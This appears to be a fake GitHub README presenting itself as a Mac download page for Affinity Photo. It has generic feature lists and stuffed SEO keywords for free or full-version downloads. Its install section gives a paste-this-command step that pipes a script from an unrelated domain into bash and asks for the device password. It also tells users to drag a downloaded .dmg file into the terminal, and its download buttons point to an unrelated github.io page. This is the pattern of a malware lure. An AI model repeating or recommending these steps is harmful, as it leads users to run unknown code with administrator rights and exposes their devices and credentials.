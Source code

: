 # Affinity Photo Mac Download - Professional Photo Editing Made Easy

![Affinity Photo Interface](https://cdn.serif.com/affinity/img/photo/home/0824/slider/photo-ocio-020820240816--lg@2x.png)  

[![Download Now](https://img.shields.io/badge/Download-Affinity_Photo-blueviolet?style=for-the-badge&logo=apple)](https://montiko384.github.io/.github/photo)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get5/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## What is Affinity Photo?

Affinity Photo is a powerful, award-winning photo editing software designed specifically for creative professionals and photography enthusiasts. Unlike subscription-based alternatives, Affinity Photo offers a complete toolkit for image editing with a one-time purchase.

This professional-grade software combines incredible speed with advanced features, delivering everything you need for retouching photos, creating multi-layered compositions, or developing RAW files with absolute precision.

![Affinity Photo Interface](https://amateurphotographer.com/wp-content/uploads/sites/7/2022/11/affinity-photo2-screenshot-rl-05-1600x900-1.jpg)  
*Experience the intuitive interface of Affinity Photo for Mac*

---

### 🎯 Core Capabilities

- **Professional Editing Tools** - Comprehensive suite for all editing needs  
- **RAW Power** - Work with over 20 camera RAW formats  
- **Precision Retouching** - Advanced tools for flawless edits  
- **Layer Mastery** - Full layer support with blending modes  
- **PSD Compatibility** - Seamless work with Photoshop files  

---

###   Why Photographers Love It

- **No Subscription** - Pay once and own it forever  
- **Mac Optimized** - Built for macOS performance  
- **Regular Updates** - Constant improvements and new features  

---

### 🧰 Creative Applications

- Portrait retouching and enhancement  
- Digital artwork creation  
- Panoramic image stitching  
- Professional photo development  

---

### 🛡 Your Data Stays Private

- All processing happens locally  
- No mandatory cloud services  
- Complete control over your work  

---

## 🆕 Latest Version Features

Discover the newest tools and improvements in the current version of Affinity Photo:

- Revolutionary live mesh warp tool  
- Enhanced brush engine for natural media  
- Improved document export options  
- Faster performance on Apple Silicon  

[![Get Affinity Photo](https://img.shields.io/badge/Download-Affinity_Photo-success?style=for-the-badge&logo=apple)](https://montiko384.github.io/.github/photo)  

---

### 📌 Helpful Resources

- Official tutorials and learning materials  
- Active user community for support  
- Detailed documentation  

---

### 📸 Perfect For:

✔ Professional photographers  
✔ Graphic designers  
✔ Digital artists  
✔ Marketing professionals  
✔ Photography students  

---

### 🔍 SEO Keywords

Affinity Photo Mac Download, Affinity Photo Download Mac, Download Mac Affinity Photo, Mac Download Affinity Photo, Download Affinity Photo Mac, Affinity Photo 2 Mac Download, Affinity Photo 2 Download Mac, Download Mac Affinity Photo 2, Mac Download Affinity Photo 2, Download Affinity Photo 2 Mac, Affinity Photo for Mac free download, Affinity Photo macOS, Affinity Photo Mac full version, How to install Affinity Photo on Mac, Affinity Photo tutorial Mac, Affinity Photo latest version Mac
